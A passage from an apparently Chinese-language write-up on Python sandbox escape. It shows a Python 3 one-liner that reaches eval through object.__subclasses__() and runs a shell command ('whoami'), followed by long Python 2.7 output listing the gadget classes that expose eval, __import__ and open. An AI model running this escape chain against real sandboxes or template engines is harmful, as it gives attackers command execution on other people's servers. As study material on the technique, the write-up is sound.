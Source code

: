 执行命令，此处如果使用原作者给的第三种利用代码在python3中会报错，python3中对于`dict.values`不再返回列表，而是返回view，不可索引的对象。

```none
>>> "".__class__.__bases__[0].__subclasses__()[103].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')misaki\user
```

### python2

python2.7的模块(252)

```none
bsddbcompilerctypescurses......webbrowser.pywhichdb.pywsgiref.egg-infoxdrlib.pyxmllib.pyxmlrpclib.pyzipfile.py
```

同样利用原代码进行筛选

```none
----------1-----------(40, 'file')----------2-----------(59, <class 'warnings.WarningMessage'>, 'linecache', ['os', 'sys', '__builtins__'])(59, <class 'warnings.WarningMessage'>, '__builtins__', None)(59, <class 'warnings.WarningMessage'>, 'sys', None)(59, <class 'warnings.WarningMessage'>, 'types', ['__builtins__'])(60, <class 'warnings.catch_warnings'>, 'linecache', ['os', 'sys', '__builtins__'])(60, <class 'warnings.catch_warnings'>, '__builtins__', None)(60, <class 'warnings.catch_warnings'>, 'sys', None)(60, <class 'warnings.catch_warnings'>, 'types', ['__builtins__'])(61, <class '_weakrefset._IterationGuard'>, '__builtins__', None)(62, <class '_weakrefset.WeakSet'>, '__builtins__', None)(72, <class 'site._Printer'>, '__builtins__', None)(72, <class 'site._Printer'>, 'traceback', ['sys', '__builtins__'])(72, <class 'site._Printer'>, 'os', ['sys', '__builtins__', 'open'])(72, <class 'site._Printer'>, 'sys', None)(77, <class 'site.Quitter'>, '__builtins__', None)(77, <class 'site.Quitter'>, 'traceback', ['sys', '__builtins__'])(77, <class 'site.Quitter'>, 'os', ['sys', '__builtins__', 'open'])(77, <class 'site.Quitter'>, 'sys', None)(78, <class 'codecs.IncrementalEncoder'>, '__builtins__', None)(78, <class 'codecs.IncrementalEncoder'>, 'sys', None)(78, <class 'codecs.IncrementalEncoder'>, 'open', None)(79, <class 'codecs.IncrementalDecoder'>, '__builtins__', None)(79, <class 'codecs.IncrementalDecoder'>, 'sys', None)(79, <class 'codecs.IncrementalDecoder'>, 'open', None)----------3-----------(59, 13, <class 'warnings.WarningMessage'>, '__import__')(59, 13, <class 'warnings.WarningMessage'>, 'file')(59, 13, <class 'warnings.WarningMessage'>, 'compile')(59, 13, <class 'warnings.WarningMessage'>, 'eval')(59, 13, <class 'warnings.WarningMessage'>, 'open')(59, 13, <class 'warnings.WarningMessage'>, 'execfile')(60, 13, <class 'warnings.catch_warnings'>, '__import__')(60, 13, <class 'warnings.catch_warnings'>, 'file')(60, 13, <class 'warnings.catch_warnings'>, 'compile')(60, 13, <class 'warnings.catch_warnings'>, 'eval')(60, 13, <class 'warnings.catch_warnings'>, 'open')(60, 13, <class 'warnings.catch_warnings'>, 'execfile')(61, 1, <class '_weakrefset._IterationGuard'>, '__import__')(61, 1, <class '_weakrefset._IterationGuard'>, 'file')(61, 1, <class '_weakrefset._IterationGuard'>, 'compile')(61, 1, <class '_weakrefset._IterationGuard'>, 'eval')(61, 1, <class '_weakrefset._IterationGuard'>, 'open')(61, 1, <class '_weakrefset._IterationGuard'>, 'execfile')(62, 1, <class '_weakrefset.WeakSet'>, '__import__')(62, 1, <class '_weakrefset.WeakSet'>, 'file')(62, 1, <class '_weakrefset.WeakSet'>, 'compile')(62, 1, <class '_weakrefset.WeakSet'>, 'eval')(62, 1, <class '_weakrefset.WeakSet'>, 'open')(62, 1, <class '_weakrefset.WeakSet'>, 'execfile')(72, 20, <class 'site._Printer'>, 'file')(72, 20, <class 'site._Printer'>, 'exec')(72, 23, <class 'site._Printer'>, '__import__')(72, 23, <class 'site._Printer'>, 'file')(72, 23, <class 'site._Printer'>, 'compile')(72, 23, <class 'site._Printer'>, 'eval')(72, 23, <class 'site._Printer'>, 'open')(72, 23, <class 'site._Printer'>, 'execfile')(77, 20, <class 'site.Quitter'>, 'file')(77, 20, <class 'site.Quitter'>, 'exec')(77, 23, <class 'site.Quitter'>, '__import__')(77, 23, <class 'site.Quitter'>, 'file')(77, 23, <class 'site.Quitter'>, 'compile')(77, 23, <class 'site.Quitter'>, 'eval')(77, 23, <class 'site.Quitter'>, 'open')(77, 23, <class 'site.Quitter'>, 'execfile')(78, 21, <class 'codecs.IncrementalEncoder'>, 'open')(78, 23, <class 'codecs.IncrementalEncoder'>, '__import__')(78, 23, <class 'codecs.IncrementalEncoder'>, 'file')(78, 23, <class 'codecs.IncrementalEncoder'>, 'compile')(78, 23, <class 'codecs.IncrementalEncoder'>, 'eval')(78, 23, <class 'codecs.IncrementalEncoder'>, 'open')(78, 23, <class 'codecs.IncrementalEncoder'>, 'execfile')(79, 21, <class 'codecs.IncrementalDecoder'>, 'open')(79, 23, <class 'codecs.IncrementalDecoder'>, '__import__')(79, 23, <class 'codecs.IncrementalDecoder'>, 'file')(79, 23, <class 'codecs.IncrementalDecoder'>, 'compile')(79, 23, <class 'codecs.IncrementalDecoder'>, 'eval')(79, 23, <class 'codecs.IncrementalDecoder'>, 'open')(79, 23, <class 'codecs.IncrementalDecoder'>, 'execfile')----------4-----------(60, '__import__')(60, 'file')(60, 'repr')(60, 'compile')(60, 'eval')(60, 'open')(60, 'execfile')
```
